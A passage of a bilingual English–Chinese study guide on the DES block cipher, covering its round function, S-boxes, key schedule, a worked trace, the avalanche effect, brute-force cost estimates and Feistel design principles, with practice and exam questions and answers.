| Rounds轮数 | 16 |
| Subkey \(K_i\) | 48 bits48 位 |
| Half block半块 | 32 bits32 位 |
| S-boxesS 盒 | 8 per round, each 6 bits in and 4 bits out每轮 8 个，每个输入 6 位，输出 4 位 |
Step 2: the round function F第 2 步：轮函数 F
In words: F widens the right half, mixes in the subkey, squeezes it through eight lookup tables and shuffles the result.用文字表述：F 先扩展右半，再与子密钥混合，然后通过八个查找表进行压缩，最后对结果做置换。
\(F(R,K_i)\) takes the 32-bit right half \(R\) and the 48-bit subkey. It has four steps.\(F(R,K_i)\) 以 32 位的右半 \(R\) 和 48 位的子密钥为输入，共有四步。
- Expansion E, 32 to 48 bits. Cut \(R\) into eight groups of 4 bits. Each group receives one extra bit from each neighbouring group (cyclically). That makes \(8\times6=48\) bits. 16 of the input bits appear twice.扩展 E，把 32 位扩展为 48 位。把 \(R\) 切成八组，每组 4 位。每组从相邻的两组各接收一位（循环地）。这样就得到 \(8\times6=48\) 位。其中有 16 个输入位出现了两次。
- XOR the 48 bits with \(K_i\).把这 48 位与 \(K_i\) 做 XOR。
- S-boxes（S 盒）. Cut the 48 bits into eight groups of 6 bits. Each group enters its own S-box, which returns 4 bits. That makes 32 bits.S 盒。把 48 位切成八组，每组 6 位。每组进入自己的 S 盒，S 盒输出 4 位。这样得到 32 位。
- Permutation P of these 32 bits.对这 32 位做 置换 P。
How to read an S-box: for the input bits \(b_1,b_2,\dots,b_6\) the row is the number written by the outer bits \(b_1b_6\) (0 to 3). The column is the number written by the inner bits \(b_2b_3b_4b_5\) (0 to 15). The entry is the output, a number from 0 to 15, written as 4 bits. S-box S1:怎样读 S 盒：对于输入位 \(b_1,b_2,\dots,b_6\)，行号由外层位 \(b_1b_6\) 所表示的数决定（0 到 3）。列号由内层位 \(b_2b_3b_4b_5\) 所表示的数决定（0 到 15）。表项就是输出，是 0 到 15 之间的一个数，写成 4 位。S 盒 S1：
| row \ col行 \ 列 | 0 | 1 | 2 | 3 | 4 | 5 | 6 | 7 | 8 | 9 | 10 | 11 | 12 | 13 | 14 | 15 |
|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|
| 0 | 14 | 4 | 13 | 1 | 2 | 15 | 11 | 8 | 3 | 10 | 6 | 12 | 5 | 9 | 0 | 7 |
| 1 | 0 | 15 | 7 | 4 | 14 | 2 | 13 | 1 | 10 | 6 | 12 | 11 | 9 | 5 | 3 | 8 |
| 2 | 4 | 1 | 14 | 8 | 13 | 6 | 2 | 11 | 15 | 12 | 9 | 7 | 3 | 10 | 5 | 0 |
| 3 | 15 | 12 | 8 | 2 | 4 | 9 | 1 | 7 | 5 | 11 | 3 | 14 | 10 | 0 | 6 | 13 |
The S-boxes are the only nonlinear step, so they give confusion. E and P spread each change over several S-boxes of the next round, which gives diffusion.S 盒是唯一的非线性步骤，因此它们提供混淆。E 和 P 把每一处改变扩散到下一轮的多个 S 盒中，从而提供扩散。
Step 3: key schedule and decryption第 3 步：密钥编排与解密
In words: the 56 key bits are rotated a little each round, and 48 of them are picked as the subkey.用文字表述：56 个密钥位每轮都循环移动一点，然后从中选出 48 位作为子密钥。
- Permuted choice 1 (PC-1) drops the 8 parity bits, permutes the other 56 bits and splits them into two 28-bit halves \(C_0\) and \(D_0\).置换选择 1（PC-1） 去掉 8 个奇偶校验位，对其余 56 位进行置换，并把它们分成两个 28 位的半块 \(C_0\) 和 \(D_0\)。
- In round \(i\) both halves rotate left by 1 bit (rounds 1, 2, 9 and 16) or by 2 bits (all other rounds).第 \(i\) 轮中，两半都左循环移动 1 位（第 1、2、9、16 轮）或 2 位（其他各轮）。
- Permuted choice 2 (PC-2) picks 48 of the 56 bits and gives \(K_i\).置换选择 2（PC-2） 从 56 位中选出 48 位，得到 \(K_i\)。
PC-2 is the same in every round. The subkeys differ because the rotations accumulate. The shifts add up to \(4\cdot1+12\cdot2=28\), the length of each half. So after round 16 the halves are back at \(C_{16}=C_0\) and \(D_{16}=D_0\).PC-2 在每一轮都相同。子密钥之所以不同，是因为循环移位不断累加。移位总和为 \(4\cdot1+12\cdot2=28\)，也就是每个半块的长度。所以第 16 轮之后，两半回到 \(C_{16}=C_0\) 和 \(D_{16}=D_0\)。
Decryption is the same algorithm with the subkeys in the order \(K_{16},\dots,K_1\). The IP at the start of decryption cancels the \(\mathrm{IP}^{-1}\) at the end of encryption. So the Feistel argument applies to the 16 rounds in between.解密与加密是同一算法，只是子密钥的顺序为 \(K_{16},\dots,K_1\)。解密开始时的 IP 与加密结束时的 \(\mathrm{IP}^{-1}\) 相互抵消。因此，Feistel 的论证适用于中间的 16 轮。
Practice练习
Q1. (Facts) State for DES: the block size, effective key size, number of rounds, subkey size, half-block size and the number of S-box lookups in one encryption.Q1.（事实）说明 DES 的分组长度、有效密钥长度、轮数、子密钥长度、半块长度，以及一次加密中 S 盒的查表次数。
Answer
Block 64 bits; effective key 56 bits (64-bit input, 8 parity bits unused); 16 rounds; subkey 48 bits; halves 32 bits. Each round uses 8 S-boxes, so \(8\times16=128\) lookups, each mapping 6 bits to 4.分组 64 位；有效密钥 56 位（输入为 64 位，其中 8 个奇偶校验位不用）；16 轮；子密钥 48 位；半块 32 位。每轮使用 8 个 S 盒，因此共 \(8\times16=128\) 次查表，每次将 6 位映射为 4 位。
Q2. (Trace) Using S1 above, find the output for the 6-bit inputs 101110 and 110101.Q2.（手工演算）利用上文的 S1，求 6 位输入 101110 与 110101 的输出。
Answer
101110: row \(=b_1b_6=\) 10 \(=2\), column \(=\) 0111 \(=7\); S1[2][7] \(=11=\) 1011. 110101: row 11 \(=3\), column 1010 \(=10\); S1[3][10] \(=3=\) 0011.101110：行为 \(=b_1b_6=\) 10 \(=2\)，列为 \(=\) 0111 \(=7\)；S1[2][7] 为 \(=11=\) 1011。110101：行为 11 \(=3\)，列为 1010 \(=10\)；S1[3][10] 为 \(=3=\) 0011。
Q3. (Beyond the text) The DES shifts are 1 in rounds 1, 2, 9, 16 and 2 otherwise. Compute their sum and explain why it matters.Q3.（超出正文）DES 的移位量在第 1、2、9、16 轮为 1，其余各轮为 2。计算其总和，并说明它为何重要。
Answer
\(4\cdot1+12\cdot2=28\), the length of each key half. After 16 rounds each half has made one full rotation, so \(C_{16}=C_0\) and \(D_{16}=D_0\). The schedule can therefore also be run backwards (right rotations) to produce \(K_{16},\dots,K_1\) for decryption.\(4\cdot1+12\cdot2=28\)，即每个密钥半块的长度。十六轮之后，每个半块恰好完成一次完整的循环，因此 \(C_{16}=C_0\) 且 \(D_{16}=D_0\)。因此，密钥编排也可以反向运行（右循环移位），为解密产生 \(K_{16},\dots,K_1\)。
思路：总移位 = 28 = 半密钥长度，转满一圈。
A DES example and the avalanche effect ★★DES 算例与雪崩效应
Goal. Read a DES trace and check the Feistel relation on it. Explain the avalanche effect and say what the numbers should be.目标。 读懂一份 DES 演算过程，并检查其中的 Feistel 关系。解释雪崩效应，并说明各数字应该是多少。
Step 1: the worked example第 1 步：例题演算
Plaintext 02468aceeca86420 under the key 0f1571c947d9e859 gives the ciphertext da02ce3a89ecac3b. The table shows the two 32-bit halves after IP and after selected rounds. The subkeys are printed as eight 6-bit values in hex. Every \(L_i\) equals the previous \(R_{i-1}\). The last row holds the two halves of the ciphertext.明文 02468aceeca86420 在密钥 0f1571c947d9e859 下得到密文 da02ce3a89ecac3b。表中给出了 IP 之后以及若干选定轮之后的两个 32 位半块。子密钥以十六进制打印为八个 6 位的值。每个 \(L_i\) 都等于前一个 \(R_{i-1}\)。最后一行是密文的两半。
| Round轮 | \(K_i\) | \(L_i\) | \(R_i\) |
|---|---|---|---|
| IP | – | 5a005a00 |
3cf03c0f |
| 1 | 1e030f03080d2930 |
3cf03c0f |
bad22845 |
| 2 | 0a31293432242318 |
bad22845 |
99e9b723 |
| 3 | 23072318201d0c1d |
99e9b723 |
0bae3b9e |
| 16 | 2921080b13143025 |
75e8fd8f |
25896490 |
| \(\mathrm{IP}^{-1}\) | – | da02ce3a |
89ecac3b |
In round 1, \(F(R_0,K_1)=\) e0d27245. So \(R_1=L_0\oplus F(R_0,K_1)=\) 5a005a00 \(\oplus\) e0d27245 \(=\) bad22845.在第 1 轮中，\(F(R_0,K_1)=\) e0d27245。因此 \(R_1=L_0\oplus F(R_0,K_1)=\) 5a005a00 \(\oplus\) e0d27245 \(=\) bad22845。
Step 2: the avalanche effect第 2 步：雪崩效应
In words: avalanche = a one-bit change at the input changes about half of the output bits.用文字表述：雪崩效应 = 输入的一位改变会使约一半输出位改变。
The avalanche effect（雪崩效应）is the property that a one-bit change in the plaintext or the key changes many ciphertext bits. If the change were small, the plaintext or key space to search could be reduced.雪崩效应是指：明文或密钥中的一位改变，会使许多密文位发生改变。如果改变很小，那么需要搜索的明文或密钥空间就可能被缩小。
For a 64-bit block the ideal is about 32 differing bits. Each of the 64 bits differs with probability \(1/2\). So the mean is \(64\times\tfrac12=32\) and the standard deviation is \(\sqrt{64\times\tfrac12\times\tfrac12}=4\).对于 64 位分组，理想情况下约有 32 位不同。64 位中的每一位以概率 \(1/2\) 不同。因此均值为 \(64\times\tfrac12=32\)，标准差为 \(\sqrt{64\times\tfrac12\times\tfrac12}=4\)。
Test 1 flips the 4th plaintext bit. Test 2 flips the 4th key bit. The table counts the bits that differ in the 64-bit intermediate value.测试 1 翻转第 4 位明文。测试 2 翻转第 4 位密钥。表中统计的是 64 位中间值中不同的位数。
| After round经过各轮后 | 0 | 1 | 2 | 3 | 4 | 5 | 8 | 12 | 16 | Ciphertext密文 |
|---|---|---|---|---|---|---|---|---|---|---|
| Plaintext bit flipped翻转的明文比特 | 1 | 1 | 5 | 18 | 34 | 37 | 33 | 31 | 32 | 32 |
| Key bit flipped翻转的密钥比特 | 0 | 3 | 11 | 25 | 29 | 26 | 32 | 28 | 30 | 30 |
After three rounds 18 bits differ, after four rounds about half of the 64 bits, and the count stays near 32 up to the ciphertext. Round 1 changes little because the flipped plaintext bit sits in \(L_0\) and \(R_0\) is unchanged. So \(R_1\) differs in that one bit only. The flipped key bit changes one S-box input and gives 3 differing bits. Later rounds multiply the change through E, the S-boxes and P.经过三轮后有 18 位不同，经过四轮后约为 64 位的一半，此后直到密文，计数都保持在 32 附近。第 1 轮变化很小，因为翻转的明文位位于 \(L_0\) 中，而 \(R_0\) 保持不变。所以 \(R_1\) 只在那一位上不同。翻转的密钥位只改变一个 S 盒的输入，因此只产生 3 位不同。之后各轮通过 E、S 盒和 P 把这种改变放大。
Practice练习
Q1. (Trace, beyond the text) Follow round 1 of the example: \(R_0=\) 3cf03c0f, \(K_1=\) 1e030f03080d2930 (eight 6-bit values), \(L_0=\) 5a005a00. Compute the first 6-bit S-box input and the S1 output, and state how \(R_1\) follows from the eight outputs.Q1.（手工演算，超出正文）跟踪示例中的第 1 轮：\(R_0=\) 3cf03c0f，\(K_1=\) 1e030f03080d2930（八个 6 位值），\(L_0=\) 5a005a00。计算第一个 S 盒的 6 位输入以及 S1 的输出，并说明 \(R_1\) 如何由八个输出得到。
Answer
\(R_0\) in binary starts 0011 1100 … and ends … 1111. The first expansion group is the last bit of \(R_0\) (1), then bits 1–4 (0011), then bit 5 (1): 100111. The first subkey value 1e is 011110. XOR: 111001, so row 11 \(=3\) and column 1100 \(=12\); S1[3][12] \(=10=\) 1010. The eight S-box outputs are 1010 0011 0010 1111 0001 0001 1100 0010 \(=\) a32f11c2; permutation P gives e0d27245; \(R_1=L_0\oplus\) e0d27245 \(=\) bad22845, and \(L_1=R_0=\) 3cf03c0f.\(R_0\) 的二进制表示以 0011 1100 … 开始，以 … 1111 结束。第一个扩展组为 \(R_0\) 的最后一位（1），然后是第 1–4 位（0011），再接第 5 位（1）：100111。第一个子密钥值 1e 为 011110。异或结果为 111001，因此行为 11 \(=3\)，列为 1100 \(=12\)；S1[3][12] 为 \(=10=\) 1010。八个 S 盒的输出为 1010 0011 0010 1111 0001 0001 1100 0010 \(=\) a32f11c2；置换 P 得到 e0d27245；\(R_1=L_0\oplus\) e0d27245 \(=\) bad22845，以及 \(L_1=R_0=\) 3cf03c0f。
思路：E → 异或子密钥 → 8 个 S 盒 → P → 异或 \(L_0\)。
Q2. (Interpret) For an ideal 64-bit cipher the number of differing ciphertext bits after a one-bit input change is binomial with \(p=1/2\). (a) Give its mean and standard deviation. (b) A student sees only 3 differing bits. How likely is that for an ideal cipher, and what does it suggest?Q2.（解释）对于理想的 64 位密码，输入改变一个比特后，不同的密文比特数服从参数为 \(p=1/2\) 的二项分布。(a) 给出其均值与标准差。(b) 某学生只观察到 3 个不同的比特。这对理想密码而言出现的可能性有多大？这说明了什么？
Answer
(a) Mean \(np=32\), standard deviation \(\sqrt{np(1-p)}=\sqrt{16}=4\). The DES results (32 and 30) lie within one standard deviation. (b) \(P(\le3)=\left[1+64+2016+41\,664\right]/2^{64}=43\,745/2^{64}\approx2.4\times10^{-15}\). This is practically impossible by chance, so the cipher lacks avalanche (too few rounds, weak \(F\)) or the test is wrong.(a) 均值为 \(np=32\)，标准差为 \(\sqrt{np(1-p)}=\sqrt{16}=4\)。DES 的结果（32 与 30）都落在一个标准差之内。(b) \(P(\le3)=\left[1+64+2016+41\,664\right]/2^{64}=43\,745/2^{64}\approx2.4\times10^{-15}\)。这种情况纯属偶然的可能性几乎为零，因此该密码缺乏雪崩效应（轮数太少，或 \(F\) 较弱），或者测试本身有误。
The strength of DES ★★DES 的安全性
Goal. Compute the time of a brute-force key search for a given key length and rate. Name the two concerns about DES and say what is known about each.目标。 对给定的密钥长度和速率，计算穷举密钥搜索所需的时间。说出关于 DES 的两个担忧，并说明各自已知的情况。
Step 1: the 56-bit key第 1 步：56 位密钥
In words: an attacker must test about half of all keys, so the time is half the key space divided by the testing rate.用文字表述：攻击者平均需要测试约一半的密钥，因此时间等于密钥空间的一半除以测试速率。
A brute-force attack（穷举攻击）tries keys until the decrypted text is intelligible. DES has \(2^{56}\approx7.2\times10^{16}\) keys. On average half of them are tested.穷举攻击逐个尝试密钥，直到解密出的文本可以理解为止。DES 有 \(2^{56}\approx7.2\times10^{16}\) 个密钥。平均要测试其中的一半。
Other rates from the same formula: \(10^6\) keys/s (one encryption per microsecond) gives over 1,100 years. A PC at \(10^9\) keys/s needs about 1.1 years, a supercomputer at \(10^{13}\) keys/s about 1 hour.用同样的公式，其他速率的结果如下：\(10^6\) 密钥/秒（每微秒一次加密）需要超过 1,100 年。个人电脑以 \(10^9\) 密钥/秒计，约需 1.1 年；超级计算机以 \(10^{13}\) 密钥/秒计，约需 1 小时。
| Key size (bits)密钥长度（比特） | Cipher密码 | Number of keys密钥数 | Average time at \(10^9\) keys/s | Average time at \(10^{13}\) keys/s |
|---|---|---|---|---|
| 56 | DES | \(7.2\times10^{16}\) | 1.1 years1.1 年 | 1 hour1 小时 |
| 128 | AES | \(3.4\times10^{38}\) | \(5.4\times10^{21}\) years | \(5.4\times10^{17}\) years |
| 168 | Triple DES三重 DES | \(3.7\times10^{50}\) | \(5.9\times10^{33}\) years | \(5.9\times10^{29}\) years |
| 192 | AES | \(6.3\times10^{57}\) | \(9.9\times10^{40}\) years | \(9.9\times10^{36}\) years |
| 256 | AES | \(1.2\times10^{77}\) | \(1.8\times10^{60}\) years | \(1.8\times10^{56}\) years |
| \(26!\) permutations | Monoalphabetic cipher单表代换密码 | \(4.0\times10^{26}\) | \(6.4\times10^{9}\) years | \(6.4\times10^{5}\) years |
The meet-in-the-middle attack lowers the effective strength of triple DES below 168 bits (Section 7.1).中间相遇攻击会使三重 DES 的有效强度低于 168 位（见第 7.1 节）。
Step 2: the two concerns第 2 步：两个担忧
Two concerns have accompanied DES since its adoption.自 DES 被采用以来，人们一直有两个担忧。
- The key size. 56 bits are too few. This is confirmed in practice: parallel hardware searches the key space in hours.密钥长度。 56 位太短。实践已经证实了这一点：并行硬件几小时就能搜索完整个密钥空间。
- The algorithm. The design criteria of the S-boxes were never published, so a hidden trapdoor（陷门）known to the designers was suspected. Regularities and unexpected behaviours were found, but no fatal weakness.算法本身。 S 盒的设计准则从未公开，因此人们怀疑设计者知道一个隐藏的陷门。人们发现了一些规律性和意外的行为，但没有发现致命弱点。
Cryptanalytic attacks are not practical against DES. Differential cryptanalysis（差分密码分析）is a chosen-plaintext attack. It needs \(2^{47}\) chosen plaintexts, or about \(2^{55.1}\) operations with known plaintext. Linear cryptanalysis（线性密码分析）needs about \(2^{43}\) known pairs. A timing attack（计时攻击）infers key information from the running time of an implementation. For DES it yields only the Hamming weight of the key (the number of 1 bits), far from the key.针对 DES 的密码分析攻击并不实用。差分密码分析是一种选择明文攻击。它需要 \(2^{47}\) 个选择明文，或者在已知明文的情况下约需 \(2^{55.1}\) 次运算。线性密码分析需要约 \(2^{43}\) 个已知明文对。计时攻击利用某一实现的运行时间推断密钥信息。对 DES 而言，它只能得到密钥的汉明重量（即其中 1 的个数），离完整的密钥还差得很远。
Practice练习
Q1. (Calculation) A computer tests \(10^9\) keys per second. (a) How long does it take to search all \(2^{56}\) DES keys, and how long on average? (b) The key grows to 60 bits and the computer becomes twice as fast. What is the new average time?Q1.（计算）一台计算机每秒测试 \(10^9\) 个密钥。(a) 搜索全部 \(2^{56}\) 个 DES 密钥需要多长时间？平均需要多长时间？(b) 密钥增长到 60 位，且计算机速度提高为两倍。新的平均时间是多少？
Answer
(a) Worst case: \(2^{56}/10^9=7.2\times10^7\) s \(\approx2.3\) years. Average (half): \(2^{55}/10^9=3.6\times10^7\) s \(\approx1.1\) years. (b) Average: \(2^{59}/(2\times10^9)=2.9\times10^8\) s \(\approx9.1\) years. The space is 16 times larger and the machine only 2 times faster, so the search takes 8 times longer.(a) 最坏情况：\(2^{56}/10^9=7.2\times10^7\) s，即 \(\approx2.3\) 年。平均情况（一半）：\(2^{55}/10^9=3.6\times10^7\) s，即 \(\approx1.1\) 年。(b) 平均：\(2^{59}/(2\times10^9)=2.9\times10^8\) s，即 \(\approx9.1\) 年。密钥空间大了 16 倍，而机器仅快了 2 倍，因此搜索时间延长为 8 倍。
思路：平均时间 = \(2^{k-1}/r\)。
Q2. (Explain) Name the two main concerns about DES security and say what is known about each.Q2.（解释）说明关于 DES 安全性的两个主要担忧，并说明各自的已知情况。
Answer
Key size: 56 bits give \(2^{56}\) keys, which parallel or special hardware searches in hours (about 1 hour at \(10^{13}\) keys/s), so DES is no longer safe against brute force. Algorithm: the S-box design criteria were never published, so a hidden trapdoor was suspected; regularities were found but no fatal weakness. Differential and linear cryptanalysis need \(2^{47}\) chosen or \(2^{43}\) known plaintexts, so brute force is the practical threat.密钥长度：56 位给出 \(2^{56}\) 个密钥，并行机器或专用硬件可在数小时内完成搜索（在 \(10^{13}\) 个密钥/秒的速度下约需 1 小时），因此 DES 已不再能抵御穷举攻击。算法：S 盒的设计准则从未公开，因此人们怀疑其中隐藏着陷门；虽然发现了一些规律，但未发现致命弱点。差分密码分析与线性密码分析分别需要 \(2^{47}\) 个选择明文或 \(2^{43}\) 个已知明文，因此穷举攻击是实际的威胁。
Block cipher design principles ★分组密码设计原则
The strength of a Feistel cipher rests on three things.Feistel 密码的强度取决于三个方面。
- Number of rounds. More rounds make cryptanalysis harder. Choose them so that every known attack costs more than brute force, so that strength follows from the key length. 16-round DES: differential cryptanalysis needs about \(2^{55.1}\) operations against \(2^{55}\) for brute force. With 15 or fewer rounds it would be cheaper.轮数。 轮数越多，密码分析就越困难。选择轮数时，应使每一种已知攻击的代价都超过穷举，这样强度就只取决于密钥长度。对于 16 轮的 DES：差分密码分析约需 \(2^{55.1}\) 次运算，而穷举需要 \(2^{55}\) 次。若只有 15 轮或更少，它的代价就会更低。
- Design of \(F\). \(F\) must be nonlinear and show avalanche. Two criteria measure this: the strict avalanche criterion (SAC)（严格雪崩准则） and the bit independence criterion (BIC)（位独立准则）.\(F\) 的设计。 \(F\) 必须是非线性的，并且表现出雪崩效应。两个准则用于衡量这一点：严格雪崩准则（SAC） 和 位独立准则（BIC）。
- Key schedule. It should hide the individual subkeys and the master key. No general theory exists.密钥编排。 它应当隐藏各个子密钥以及主密钥。目前不存在通用的理论。
Practice练习
Q1. (Calculation) Which of these 3-input Boolean functions satisfy the SAC: \(f_1=x_1\oplus x_2\), \(f_2=x_1x_2x_3\) (AND), \(f_3=\operatorname{maj}(x_1,x_2,x_3)\) (majority)?Q1.（计算）下列三输入布尔函数中，哪些满足 SAC：\(f_1=x_1\oplus x_2\)、\(f_2=x_1x_2x_3\)（与）、\(f_3=\operatorname{maj}(x_1,x_2,x_3)\)（多数）？
Answer
Count over all 8 inputs how often inverting \(x_i\) changes the output. \(f_1\): inverting \(x_1\) or \(x_2\) always changes it (probability 1) and \(x_3\) never (0): fails. \(f_2\): the output changes only if the other two inputs are both 1, probability \(1/4\) for every \(i\): fails. \(f_3\): inverting \(x_i\) changes the majority exactly when the other two inputs differ, probability \(1/2\) for every \(i\): satisfies the SAC.对全部 8 个输入，统计取反 \(x_i\) 会使输出改变的次数。\(f_1\)：取反 \(x_1\) 或 \(x_2\) 总会改变输出（概率为 1），而取反 \(x_3\) 则从不改变（概率为 0）：不满足。\(f_2\)：只有当其他两个输入均为 1 时输出才会改变，对每个 \(i\)，概率为 \(1/4\)：不满足。\(f_3\)：只有当其他两个输入不同时，取反 \(x_i\) 才会恰好改变多数函数的输出；对每个 \(i\)，概率均为 \(1/2\)：满足 SAC。
易错：SAC 要求每个输入位的翻转概率都恰好是 1/2。
Terms to recognise ★需要认识的术语
| Term术语 | What to know要知道什么 |
|---|---|
| Substitution–permutation network (SPN)代换-置换网络（SPN） | Shannon's scheme of alternating substitution and permutation; the Feistel cipher is its simplest form香农提出的代换与置换交替的方案；Feistel 密码是它最简单的形式 |
| Triple DES (3DES)三重 DES（3DES） | Encrypt–decrypt–encrypt with two or three DES keys: 112 or 168 key bits (Section 7.1)用两个或三个 DES 密钥进行加密–解密–加密：112 或 168 位密钥（见第 7.1 节） |
| Complementation property互补性质 | With \(X\) a plaintext, \(Y\) its ciphertext and \(E\) the encryption under key \(K\): if \(Y=E(K,X)\) then \(Y'=E(K',X')\), with \('\) the bitwise complement. One test checks two keys\(X\) 为明文，\(Y\) 为其密文，\(E\) 为在密钥 \(K\) 下的加密：若 \(Y=E(K,X)\)，则 \(Y'=E(K',X')\)，其中 \('\) 为按位取反。一次检验即可同时检查两个密钥 |
| Weak keys弱密钥 | Four DES keys give 16 equal subkeys, so encrypting twice returns the plaintext有四个 DES 密钥会产生 16 个相同的子密钥，因此加密两次即可还原明文 |
| Semi-weak keys半弱密钥 | Six pairs of keys where one key undoes the other六对密钥，其中一个密钥可以撤销另一个的作用 |
| Parity bits奇偶校验位 | 8 of the 64 DES key bits; unused64 位 DES 密钥中的 8 位；不被使用 |
| Strongly ideal cipher强理想密码 | All ciphertext statistics are independent of the key; the arbitrary substitution is one所有密文统计量都与密钥无关；任意代换就是一个例子 |
| Differential cryptanalysis差分密码分析 | Chosen-plaintext attack on XOR differences; about \(2^{47}\) chosen plaintexts against 16-round DES针对 XOR 差分的选择明文攻击；对 16 轮 DES 约需 \(2^{47}\) 个选择明文 |
| Linear cryptanalysis线性密码分析 | Known-plaintext attack with linear approximations of the S-boxes; about \(2^{43}\) pairs利用 S 盒线性逼近的已知明文攻击；约需 \(2^{43}\) 个明文对 |
| Timing attack on DES针对 DES 的计时攻击 | Running time leaks the Hamming weight of the key only; DES, 3DES and AES resist it fairly well运行时间只泄露密钥的汉明重量；DES、3DES 和 AES 都能较好地抵抗它 |
| AES | The successor of DES (Chapter 6)DES 的后继者（第 6 章） |
Exam-style questions考试题型练习
Q1. (Concepts, 15 marks) (a) Explain why an ideal 64-bit block cipher is impractical and give its key length (4). (b) Define product cipher, substitution and permutation, and state how the Feistel structure approximates the ideal cipher (4). (c) Define diffusion and confusion and name one DES mechanism for each (4). (d) How many mappings can a Feistel cipher with a \(k\)-bit key realise, and how many does the ideal cipher offer (3)?Q1.（概念，15 分）(a) 解释为什么理想的 64 位分组密码不切实际，并给出其密钥长度。（4 分）(b) 定义乘积密码、代换与置换，并说明 Feistel 结构如何逼近理想密码。（4 分）(c) 定义扩散与混淆，并各举一个 DES 中的机制。（4 分）(d) 一个密钥为 \(k\) 比特的 Feistel 密码能够实现多少种映射？理想密码又提供多少种？（3 分）
Answer
(a) The ideal cipher may use any of the \((2^{64})!\) reversible mappings, so the mapping table is the key: \(64\cdot2^{64}=2^{70}\approx1.2\times10^{21}\) bits. It can be neither stored nor shared by two users.(a) 理想密码可以使用 \((2^{64})!\) 种可逆映射中的任意一种，因此映射表即为密钥：\(64\cdot2^{64}=2^{70}\approx1.2\times10^{21}\) 比特。它既无法存储，也无法由两个用户共享。
(b) A product cipher executes two or more simple ciphers in sequence so that the result is stronger than any component. A substitution replaces each element or group uniquely; a permutation reorders elements without adding, deleting or replacing any. A Feistel network alternates a keyed substitution (XOR with \(F\) of the other half) and a permutation (swap of halves) over many rounds, so a short key and a cheap round function give a strongly mixed mapping.(b) 乘积密码依次执行两个或更多简单密码，使结果比任何一个组成部分都更强。代换将每个元素或元素组唯一地替换；置换则对元素重新排序，既不增加、也不删除、更不替换任何元素。Feistel 网络在多轮中交替进行带密钥的代换（将另一半经 \(F\) 处理后的结果与之异或）和置换（两半交换），因此，一个短密钥加上一个代价低廉的轮函数，就能得到强烈混合的映射。
(c) Diffusion spreads each plaintext digit over many ciphertext digits and hides plaintext statistics; in DES the expansion E and permutation P spread the S-box outputs over the next round. Confusion makes the relation between key and ciphertext complex; in DES the nonlinear S-boxes provide it.(c) 扩散将每个明文数字分散到许多密文数字上，并隐藏明文的统计特性；在 DES 中，扩展 E 与置换 P 将 S 盒的输出分散到下一轮。混淆使密钥与密文之间的关系变得复杂；在 DES 中，非线性的 S 盒提供了混淆。
(d) At most \(2^k\) mappings (one per key), against \((2^n)!\) for the ideal cipher.(d) 至多 \(2^k\) 种映射（每个密钥对应一种），而理想密码则为 \((2^n)!\) 种。
思路：先说清“密钥 = 映射表”，再讲乘积密码和两种手段。
Q2. (Calculation, 15 marks) A 3-round Feistel cipher has 4-bit halves, \(F(R,K)=(R\cdot K)\bmod16\) and subkeys \(K_1=3\), \(K_2=5\), \(K_3=6\). (a) Encrypt the block B4 (6). (b) Decrypt the result and show that B4 returns (5). (c) If the final swap is omitted, the ciphertext is 7D, and the normal decryption algorithm returns 90. Explain why (4).Q2.（计算，15 分）一个 3 轮 Feistel 密码，半块为 4 位，\(F(R,K)=(R\cdot K)\bmod16\)，子密钥依次为 \(K_1=3\)、\(K_2=5\)、\(K_3=6\)。(a) 对分组 B4 进行加密。（6 分）(b) 对结果进行解密，并证明 B4 返回原始分组。（5 分）(c) 若省去最后的交换，则密文为 7D，而正常的解密算法返回 90。解释原因。（4 分）
Answer
(a) \(L_0=\) B, \(R_0=\) 4. Round 1: \(F(4,3)=12=\) C; \(L_1=\) 4, \(R_1=\) B \(\oplus\) C \(=\) 7. Round 2: \(F(7,5)=35\bmod16=3\); \(L_2=\) 7, \(R_2=\) 4 \(\oplus\) 3 \(=\) 7. Round 3: \(F(7,6)=42\bmod16=10=\) A; \(L_3=\) 7, \(R_3=\) 7 \(\oplus\) A \(=\) D. Ciphertext \(R_3\Vert L_3=\) D7.\(L_0=\) B，\(R_0=\) 4。第 1 轮：\(F(4,3)=12=\) C；\(L_1=\) 4，\(R_1=\) B \(\oplus\) C \(=\) 7。第 2 轮：\(F(7,5)=35\bmod16=3\)；\(L_2=\) 7，\(R_2=\) 4 \(\oplus\) 3 \(=\) 7。第 3 轮：\(F(7,6)=42\bmod16=10=\) A；\(L_3=\) 7，\(R_3=\) 7 \(\oplus\) A \(=\) D。密文 \(R_3\Vert L_3=\) D7。
(b) \(LD_0=\) D, \(RD_0=\) 7, subkeys 6, 5, 3. Round 1: \(F(7,6)=\) A; \(LD_1=\) 7, \(RD_1=\) D \(\oplus\) A \(=\) 7. Round 2: \(F(7,5)=3\); \(LD_2=\) 7, \(RD_2=\) 7 \(\oplus\) 3 \(=\) 4. Round 3: \(F(4,3)=\) C; \(LD_3=\) 4, \(RD_3=\) 7 \(\oplus\) C \(=\) B. Output \(RD_3\Vert LD_3=\) B4, the original block.(b) \(LD_0=\) D，\(RD_0=\) 7，子密钥依次为 6、5、3。第 1 轮：\(F(7,6)=\) A；\(LD_1=\) 7，\(RD_1=\) D \(\oplus\) A \(=\) 7。第 2 轮：\(F(7,5)=3\)；\(LD_2=\) 7，\(RD_2=\) 7 \(\oplus\) 3 \(=\) 4。第 3 轮：\(F(4,3)=\) C；\(LD_3=\) 4，\(RD_3=\) 7 \(\oplus\) C \(=\) B。输出 \(RD_3\Vert LD_3=\) B4，即原始分组。
(c) Without the swap the ciphertext is \(L_3\Vert R_3=\) 7D. The first decryption round then computes \(F(R_3,K_3)\) instead of \(F(R_2,K_3)\), so the XOR no longer cancels the encryption's \(F\) term and the output is 90, not B4. The final swap puts the halves where the decryption rounds expect them.(c) 若不交换，密文为 \(L_3\Vert R_3=\) 7D。此时解密第 1 轮计算的是 \(F(R_3,K_3)\)，而不是 \(F(R_2,K_3)\)，因此异或不再能抵消加密中的 \(F\) 项，输出为 90，而非 B4。最后的交换将两半放回解密轮所期望的位置。
易错：密文是 \(R_n\Vert L_n\)，不是 \(L_n\Vert R_n\)。
